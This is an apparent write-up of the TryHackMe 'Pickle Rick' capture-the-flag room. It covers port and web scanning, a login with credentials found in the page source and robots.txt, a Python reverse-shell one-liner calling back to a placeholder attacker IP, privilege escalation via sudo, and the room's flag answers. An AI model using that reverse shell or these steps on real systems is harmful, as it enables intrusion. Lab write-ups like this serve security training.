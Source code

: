 # Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

Room link: https://tryhackme.com/room/picklerick
Difficulty: **Easy**

### Walkthrough

Running an initial Nmap scan against all ports shows both port 22 (SSH) and 80 (HTTP) are open:

```console
$ nmap -p- -T4 10.10.76.19 -oN scans/initial.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 09:09 GMT
Nmap scan report for 10.10.76.19
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.99 seconds
```

Running a full scan against these ports show Apache version `2.4.18` is running on an Ubuntu sytem:

```console
$ nmap -p 22,80 -A -T4 10.10.76.19 -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-25 09:13 GMT
Nmap scan report for 10.10.76.19
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:83:cb:9c:49:59:9e:8f:2d:41:f6:9f:df:40:84:32 (RSA)
|   256 1d:2b:0f:3a:92:c0:32:3a:74:c3:24:2a:88:0f:0f:ee (ECDSA)
|_  256 74:e8:31:f4:b4:0d:48:5b:87:60:4f:64:54:9b:f2:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   28.70 ms 10.9.0.1
2   29.23 ms 10.10.76.19

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.21 seconds
```

Navigating to the website shows the following homepage which states Rick has forgotten his password and his three secret ingredients for his pickle-reverse potion:

![Pickle Rick - Homepage](picklerick_homepage.png)

Reviewing the source code reveals the username is `R1ckRul3s`

![Pickle Rick - Sourcecode](picklerick_sourcecode.png)

Checking `/robots.txt` shows the following text:

```
Wubbalubbadubdub
```

Running `gobuster` with a medium-length dictionary list does not reveal any hidden paths:

```console
$ gobuster dir -u http://10.10.76.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.19/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/25 09:18:45 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.76.19/assets/]
/server-status        (Status: 403) [Size: 299]
Progress: 220444 / 220561 (99.95%)
===============================================================
2023/11/25 09:30:37 Finished
===============================================================
```

Nikto scan identifies a `login.php` page:

```console
$ nikto -h 10.10.76.19               
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.76.19
+ Target Hostname:    10.10.76.19
+ Target Port:        80
+ Start Time:         2023-11-25 09:32:09 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /login.php: Admin login page/section found.
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-11-25 09:37:40 (GMT0) (331 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to this page shows a simple login form:

![Pickle Rick - Login](picklerick_login_php.png)

Using the username and string from `robots.txt` as the credentials (`R1ckRul3s:Wubbalubbadubdub`) allows us to successfully log in. At which point, we are presented with a command panel, allowing us to interact with the host via built-in commands:

![Pickle Rick - Portal](tryhackme/images/picklerick_portal.png)

For example, running `ls` returns the directory listing:

![Pickle Rick - ls](tryhackme/images/picklerick_ls.png)

However, attempting to run `cat` against the files results in the following error:

![Pickle Rick - Command Disabled](tryhackme/images/picklerick_command_disabled.png)

Fortunately, the `less` command is not denied, allowing us to read the first ingredient:

![Pickle Rick - Less](tryhackme/images/picklerick_less_ingred1.png)

```
mr. meeseek hair
```

Viewing `clue.txt` indicates we can look through the filesystem for the other ingredient:

![Pickle Rick - Clue](tryhackme/images/picklerick_clue.png)

First, let's get a shell on the host so that we can navigate through the filesystem easier. We can use a Python one-liner from [PentestMonkey's Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), modifying it with our attacker IP and chosen listen port:

![Pickle Rick - Which Python3](tryhackme/images/picklerick_which_python3.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This results in a successful callback to our attacker machine:

![Pickle Rick - Callback](tryhackme/images/picklerick_callback.png)

Stabilising the shell with the following commands:

```console
$ python3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```

Looking around the filesystem, we identify the `rick` user in `/home`:

![Pickle Rick - Rick User](tryhackme/images/picklerick_rick_user.png)

Within their `/home` directory, there is a `second ingredients` file which we can read:

![Pickle Rick - Ingredient](picklerick_ingredient2.png)

```
1 jerry tear
```

Now we must escalate our privileges in order to find the 3rd and final ingredient. To do this, we can run `sudo -l` to see if there are any privileges granted to the `www-data` user


![Pickle Rick - Sudo -l](tryhackme/images/picklerick_sudo_l.png)

From the above, we can see that the user can run any `sudo` command without requiring password authentication. This means we can simply run `sudo su` to switch to the `root` user:

```console
$ sudo su
```

![Pickle Rick - Privesc](tryhackme/images/picklerick_privesc.png)

Finally, we can read the third ingredient:

![Pickle Rick - Ingredient 3](tryhackme/images/picklerick_ingredient3.png)

```
fleeb juice
```

-----

1. What is the first ingredient that Rick needs?

```
mr. meeseek hair
```

2. What is the second ingredient in Rick’s potion?

```
1 jerry tear
```

3. What is the last and final ingredient?

```
fleeb juice
```